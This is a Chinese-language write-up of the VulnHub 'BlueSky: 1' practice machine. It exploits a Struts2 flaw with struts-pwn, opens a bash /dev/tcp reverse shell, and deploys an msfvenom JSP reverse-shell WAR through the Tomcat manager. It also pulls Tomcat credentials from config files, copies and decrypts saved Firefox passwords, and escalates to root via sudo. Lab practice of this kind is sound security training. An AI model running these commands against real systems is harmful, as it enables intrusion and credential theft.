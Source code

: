 ### About Release

* **Name**: BlueSky: 1
* **Date release**: 10 Dec 2020
* downpload：https://www.vulnhub.com/entry/bluesky-1,623/
* Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

## 一、信息收集

主机发现：

```
nmap -sP 192.168.56.1/24
```

![image-20210126141945664](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126141945664.png)

端口扫描：

```bash
nmap -sT -sV -T4 -p- 192.168.56.104
```

![image-20210126142126196](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142126196.png)

8080端口tomcat, 22 ssh端口。

但是没啥漏洞。。。

查阅资料结果是 strtus 漏洞。

```
http://192.168.56.104:8080/struts2-showcase/index.action
```

![image-20210126142501422](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142501422.png)

## 二、漏洞利用

github上找一波工具。

https://github.com/mazen160/struts-pwn

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -h
usage: struts-pwn.py [-h] [-u URL] [-l USEDLIST] [-c CMD] [--check]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Check a single URL.
  -l USEDLIST, --list USEDLIST
                        Check a list of URLs.
  -c CMD, --cmd CMD     Command to execute. (Default: id)
  --check               Check if a target is vulnerable.
```

![image-20210126142625538](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142625538.png)

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c id 

[*] URL: http://192.168.56.104:8080/struts2-showcase/index.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=1000(minhtuan) gid=1000(minhtuan) groups=1000(minhtuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

[%] Done.

```

成功远程命令执行，那就 反弹 shell。

kali:

```bash
nc -lvnp 4444
```

靶机：

```bash
python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1"
```

成功反弹 shell.

用户目录下得到`user.txt`

```bash
minhtuan@ubuntu:~$ cat user.txt
cat user.txt
Try your best, you have passed the first challenge, and the last one is for you, root me!
```

接下来寻找 root下的 flag.

寻找 tomcat 密码。

因为web中间件是tomcat，tomcat路径为/usr/local/tomcat，我们可以找到tomcat的用户名密码文件/conf/tomcat-users.xml

```bash
minhtuan@ubuntu:~$ locate users.xml
locate users.xml
/usr/local/tomcat/conf/tomcat-users.xml
```

![image-20210126161826148](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126161826148.png)

登录 tomcat ,可上传 war 包，

![image-20210126161929668](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126161929668.png)

`msfvenom` 生成 war包，

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=5555 -f war>shell.war
```

kali 开启监听:

```bash
nc -lvnp 5555
```

上传 war 包，然后访问

![image-20210126162412576](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126162412576.png)

利用python升级为交互式 shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

在用户根目录下发现mozilla firefox浏览器文件.可以通过这个得到用户名密码记录。

![image-20210126163114591](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126163114591.png)

不同版本的Firefox保存密码记录的文件名称不同，在网上找到firefox浏览器存储用户名密码的文件是logins.json（版本号大于等于32.0）或者signons.sqlite（版本号大于等于3.5，小于32.0），可以看[这里](http://kb.mozillazine.org/Profile_folder_-_Firefox).

找到其位置

```bash
minhtuan@ubuntu:~/.mozilla/firefox$ locate logins.json
locate logins.json
/home/minhtuan/.mozilla/firefox/fvbljmev.default-release/logins.json
```

github找解密脚本

https://github.com/lclevy/firepwd

需安装库，但 kali 默认没有 pip3 ，所以安装一下：

```bash
wget https://bootstrap.pypa.io/get-pip.py
python3 get-pip.py
pip3 -V

pip3 install -r requirements.txt
```

靶机开 一个 http 服务

```bash
python3 -m http.server 8001
```

将文件拷贝出来(脚本需要)，kali执行：

```bash
wget http://192.168.56.104:8001/logins.json
wget http://192.168.56.104:8001/key4.db

python3 firepwd.py
```

![image-20210126170858108](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126170858108.png)

得到账户密码，

## 三、提权

使用sudo -l进行提权，

![image-20210126171329699](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126171329699.png)

```bash
root@ubuntu:~# cat root.txt
cat root.txt
Amazing, goodjob you!
Thank you for going here

SunCSR Team

```

成功通关。

## 四、总结

信息收集 ---> 8080 tomcat  ---> struts 漏洞 ---> 得到 user.txt 

读取配置文件获取tomcat账号密码 ---> 读取 Firefox保存密码记录 ---> sudo -l 提权 ---> 得到 root.txt

